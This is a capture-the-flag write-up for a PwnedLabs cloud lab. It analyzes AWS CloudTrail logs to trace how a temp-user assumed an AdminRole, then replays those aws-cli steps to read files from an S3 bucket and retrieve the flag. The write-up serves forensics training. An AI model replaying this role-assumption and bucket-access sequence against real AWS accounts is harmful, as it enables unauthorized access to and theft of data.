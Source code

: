 ```yaml
---
title: Breach In The Cloud Writeup 
date: 2024-05-28
categories: [PwnedLabs]
tags: [pentest, pwnedlabs, ctf, cloud, aws]
---
```


This Challenge gives us a scenario where we have been alerted to a potential security threat. The Huge Logistics security team have provided you with AWS keys of an account that saw unusual activity, as well as AWS CloudTrail logs around the time of the activity. We need your expertise to confirm the breach by analyzing our CloudTrail logs, identifying the compromised AWS service and any data that was exfiltrated.

AWS CloudTrail is a service that enables governance, compliance, operational auditing, and risk auditing of AWS account.

<hr/>

Lets' Start with the Challenge.

We have been given the following AWS Credentials at the start.
<figure><img src="/assets/pwnedlabs/Breach-In-The-Cloud/start.png" alt="Exposed information while starting the challenge"></figure>

Let's Configure our `aws-cli` using these credentials.

```
┌──(kali㉿kali)-[~/Desktop/pwnedlabs/BreachInTheCloud]
└─$ aws sts get-caller-identity | jq
{
  "UserId": "AIDARSCCN4A3X2YWZ37ZI",
  "Account": "107513503799",
  "Arn": "arn:aws:iam::107513503799:user/temp-user"
}
```

I downloaded the log files from the discord server and unzipped them to get the following files.

```terminal
┌──(kali㉿kali)-[~/Desktop/pwnedlabs/BreachInTheCloud]
└─$ ls    
107513503799_CloudTrail_us-east-1_20230826T2035Z_PjmwM7E4hZ6897Aq.json  107513503799_CloudTrail_us-east-1_20230826T2100Z_APB7fBUnHmiWjHtg.json
107513503799_CloudTrail_us-east-1_20230826T2040Z_UkDeakooXR09uCBm.json  107513503799_CloudTrail_us-east-1_20230826T2105Z_fpp78PgremAcrW5c.json
107513503799_CloudTrail_us-east-1_20230826T2050Z_iUtQqYPskB20yZqT.json  107513503799_CloudTrail_us-east-1_20230826T2120Z_UCUhsJa0zoFY3ZO0.json
107513503799_CloudTrail_us-east-1_20230826T2055Z_W0F5uypAbGttUgSn.json
```

Let's breakdown the file format to understand the data.

```text
107513503799_CloudTrail_us-east-1_20230826T2035Z_PjmwM7E4hZ6897Aq.json

107513503799 => Account ID
CloudTrail => Service Name
us-east-1 => Region
20230826T2035Z => Timestamp
PjmwM7E4hZ6897Aq => Random Identifier
```

## File 1

On analyzing the first file `107513503799_CloudTrail_us-east-1_20230826T2035Z_PjmwM7E4hZ6897Aq.json`, all the activities we're realated to root only one of them was for the following `temp-user` to which we have access.

```json
{
      "eventVersion": "1.08",
      "userIdentity": {
        "type": "IAMUser",
        "principalId": "AIDARSCCN4A3X2YWZ37ZI",
        "arn": "arn:aws:iam::107513503799:user/temp-user",
        "accountId": "107513503799",
        "userName": "temp-user"
      },
      "eventTime": "2023-08-26T20:29:37Z",
      "eventSource": "sts.amazonaws.com",
      "eventName": "GetCallerIdentity",
      "awsRegion": "us-east-1",
      "sourceIPAddress": "84.32.71.19",
      "userAgent": "aws-cli/1.27.74 Python/3.10.6 Linux/5.15.90.1-microsoft-standard-WSL2 botocore/1.29.74",
      "requestParameters": null,
      "responseElements": null,
      "requestID": "3db296ab-c531-4b4a-a468-e1b05ec83246",
      "eventID": "ea6ae4b8-aae8-4fca-a495-2df427bdce46",
      "readOnly": true,
      "eventType": "AwsApiCall",
      "managementEvent": true,
      "recipientAccountId": "107513503799",
      "eventCategory": "Management",
      "tlsDetails": {
        "tlsVersion": "TLSv1.2",
        "cipherSuite": "ECDHE-RSA-AES128-GCM-SHA256",
        "clientProvidedHostHeader": "sts.amazonaws.com"
      }
    }
```

It just calls the `GetCallerIdentity` API.

## File 2
  
In the next file `107513503799_CloudTrail_us-east-1_20230826T2040Z_UkDeakooXR09uCBm.json` the `temp-user` tried to list objects inside the `emergency-data-recovery` s3 bucket and recieved an access denied error.

<figure><img src="/assets/pwnedlabs/Breach-In-The-Cloud/1.png" alt="Access Denied on listing the s3 bucket."></figure>

## File 3

The third file `107513503799_CloudTrail_us-east-1_20230826T2050Z_iUtQqYPskB20yZqT.json` was a bunch of error messages made by the temp-user and recieved `Access-Denied`

<figure><img src="/assets/pwnedlabs/Breach-In-The-Cloud/2.png" alt="Error messages on API Calls"></figure>

## File 4

The fourth file `107513503799_CloudTrail_us-east-1_20230826T2055Z_W0F5uypAbGttUgSn.json` is also a bunch of error messages.

<figure><img src="/assets/pwnedlabs/Breach-In-The-Cloud/3.png" alt="Error messages log file"></figure>

## File 5

In the fifth file `107513503799_CloudTrail_us-east-1_20230826T2100Z_APB7fBUnHmiWjHtg.json`, We can see that the `temp-user` called the `Assume Role` API to which he was able to have access to `AdminRole` role for a limited duration.

## File 6

In the last file `107513503799_CloudTrail_us-east-1_20230826T2120Z_UCUhsJa0zoFY3ZO0.json`, We can see that the `AdminRole` user is able to make the API calls of `ListObject` and `GetObject`.

<figure><img src="/assets/pwnedlabs/Breach-In-The-Cloud/5.png" alt="ListObject API Access by AdminRole user."></figure>

After analyzing the log files, Let's try to retrace the steps and get access.

## Retracing The Steps

I configured the `aws-cli` as per the credentials given in the starting point of the lab to have access as the `temp-user`.

```
$ aws sts get-caller-identity
```

<figure><img src="/assets/pwnedlabs/Breach-In-The-Cloud/6.png" alt="Access to temp-user in aws-cli."></figure>

Now let's check what policies are attached as a temp-user.

```
$ aws iam list-user-policies --user-name temp-user
```

<figure><img src="/assets/pwnedlabs/Breach-In-The-Cloud/7.png" alt="Policies for the temp-user."></figure>

Let's check the policy to see the actions we are able to make as a temp-user.

```
$ aws iam get-user-policy --user-name temp-user --policy-name test-temp-user
```

<figure><img src="/assets/pwnedlabs/Breach-In-The-Cloud/8.png" alt="Actions for the policy of temp-user"></figure>

## Assuming the Role

```
$ aws sts assume-role --role-arn arn:aws:iam::107513503799:role/AdminRole --role-session-name hellosesssion
```

<figure><img src="/assets/pwnedlabs/Breach-In-The-Cloud/9.png" alt="Details for the assumed role created."></figure>

Exported the values as environment variables to login into the AdminRole.

<figure><img src="/assets/pwnedlabs/Breach-In-The-Cloud/10.png" alt="Exporting environment variables"><figure>

Let's run `get-caller-identity` to check our role again.

```terminal
$ aws sts get-caller-identity
```

<figure><img src="/assets/pwnedlabs/Breach-In-The-Cloud/11.png" alt="Checking role after exporting variables."></figure>

We saw that there was a bucket named `emergency-data-recovery`. Let's list contents of that bucket.

```
$ aws s3 ls s3://emergency-data-recovery
```

<figure><img src="/assets/pwnedlabs/Breach-In-The-Cloud/12.png" alt="List contents of the s3 bucket."></figure>

Copy paste the content to our local machine.

```
$ aws s3 cp s3://emergency-data-recovery/emergency.txt .

$ aws s3 cp s3://emergency-data-recovery/message.txt .
```

<figure><img src="/assets/pwnedlabs/Breach-In-The-Cloud/13.png" alt="Copy pasting the contents of the bucket to my machine."></figure>

Let's read the content of `message.txt`

<figure><img src="/assets/pwnedlabs/Breach-In-The-Cloud/14.png" alt="Reading the message in the text files."></figure>

The flag is in the `emergency.txt` file.

The Lab has been pwned!!

Thank you! Happy Hacking :D